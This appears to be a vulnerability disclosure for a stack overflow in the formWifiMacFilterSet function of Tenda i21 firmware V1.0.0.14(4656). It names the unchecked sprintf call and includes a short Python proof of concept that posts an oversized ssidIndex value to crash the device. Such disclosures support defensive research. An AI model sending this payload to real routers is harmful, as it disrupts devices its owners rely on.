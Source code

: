 ## Overview

- Firmware download website: https://www.tenda.com.cn/download/detail-2982.html

## Affected version

i21 V1.0.0.14(4656)

## Vulnerability details

In the i21 V1.0.0.14(4656) firmware has a stack overflow vulnerability in the `formWifiMacFilterSet` function. The `index` variable receives the `ssidIndex` parameter from a POST request. However, since the user can control the input of `ssidIndex`, the statement `sprintf(mib_prefix, "wl2g.ssid%s.", index);` can cause a buffer overflow. The user-provided  `ssidIndex` can exceed the capacity of the `mib_prefix` array, triggering this security vulnerability.

![image-20240419205250932](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419205250932.png)

![image-20240419205240249](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419205240249.png)

## POC

```python
payload = b"a"*2000

data = {"radio": "2.4G", "ssidIndex": payload}
response = requests.post(url, data=data)
```

![image-20240419162115799](https://raw.githubusercontent.com/abcdefg-png/images2/main/image-20240419162115799.png)
